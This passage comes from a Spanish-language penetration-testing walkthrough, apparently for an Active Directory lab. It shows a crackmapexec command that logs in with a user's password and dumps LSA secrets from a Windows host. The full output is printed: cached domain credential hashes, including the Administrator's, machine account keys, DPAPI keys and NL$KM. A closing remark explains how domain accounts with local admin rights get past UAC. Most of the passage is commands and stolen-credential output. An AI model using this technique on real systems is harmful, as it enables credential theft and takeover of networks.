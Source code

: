 ```
SMB         192.168.5.208   445    WS01             [+] Added 5 SAM hashes to the database
```

Podremos hacer lo de la misma forma pero con `lsass`:

```shell
crackmapexec smb 192.168.5.208 -u empleado1 -p "Passw0rd2" --lsa
```

Info:

```
SMB         192.168.5.208   445    WS01             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS01) (domain:corp.local) (signing:False) (SMBv1:False)
SMB         192.168.5.208   445    WS01             [+] corp.local\empleado1:Passw0rd2 (Pwn3d!)
SMB         192.168.5.208   445    WS01             [+] Dumping LSA secrets
SMB         192.168.5.208   445    WS01             CORP.LOCAL/empleado1:$DCC2$10240#empleado1#fda53d6158406f827388476bcbc97c37: (2025-01-19 08:39:14)
SMB         192.168.5.208   445    WS01             CORP.LOCAL/Administrator:$DCC2$10240#Administrator#e1c8d7e26653ae629a74772a389cf7e6: (2025-01-19 08:52:13)
SMB         192.168.5.208   445    WS01             CORP.LOCAL/annice.mable:$DCC2$10240#annice.mable#77702054bffe13f7c5bbe919a228d985: (2025-01-12 11:36:13)
SMB         192.168.5.208   445    WS01             CORP.LOCAL/angelika.shelly:$DCC2$10240#angelika.shelly#835512d4e4bb1d962c57d290eb99f670: (2025-01-12 16:51:40)
SMB         192.168.5.208   445    WS01             CORP\WS01$:aes256-cts-hmac-sha1-96:9a9fc7447f8fa5521eeef5af175be7af2189392bc0d56f2e7d41e4c15cdad294
SMB         192.168.5.208   445    WS01             CORP\WS01$:aes128-cts-hmac-sha1-96:73670fc7a88720c24ff4c869dc84a9c1
SMB         192.168.5.208   445    WS01             CORP\WS01$:des-cbc-md5:8c5bea107cc8c804
SMB         192.168.5.208   445    WS01             CORP\WS01$:plain_password_hex:5700320055006b0049004e0027003d005e0055005c00750052004c0077006e004e00510045003c002d0066005d004b005f007600330072004400350022002700750068004e00300041003d0024006c004e0022005700750065006b00640034004a0056006f003e006c005f006c0050005c005d002700360077002c00290033005e005d004f005e005100560027002e003200380029004f0078005100410049002c003a0025005f00680072005d00380034002500490068002200640045006f0072005c0063002d0022005f002f006f0065006700720022005f0061006c00780047006400590062007700770059005f00
SMB         192.168.5.208   445    WS01             CORP\WS01$:aad3b435b51404eeaad3b435b51404ee:afc5c02d936d73808ce716070e883ab8:::
SMB         192.168.5.208   445    WS01             dpapi_machinekey:0x6be6aee6bc489e7fab1ed9a63b1aa5c0d2f13fef
dpapi_userkey:0xb83f8122ee552579d8fbf4d9b304ae19ab5bb7af
SMB         192.168.5.208   445    WS01             NL$KM:5cb53b8cd528a0c36af257a308b6f7d4e47d11848f2c982b2ddd067d3053b4234b8dc77e92965b4867299950c1e427a6372c9d99e8fd5711cc4447ed306f9600
SMB         192.168.5.208   445    WS01             [+] Dumped 11 LSA secrets to /home/kali/.cme/logs/WS01_192.168.5.208_2025-01-19_051507.secrets and /home/kali/.cme/logs/WS01_192.168.5.208_2025-01-19_051507.cached
```

Si lo intentamos hacer con un usuario `local` con privilegios de `administrador` con este saltaria el `UAC` y nos nos dumpeara nada, pero con un usuario de dominio con privilegios de `administrador` local, por algun motivo no salta y si nos lo puede dumpear.

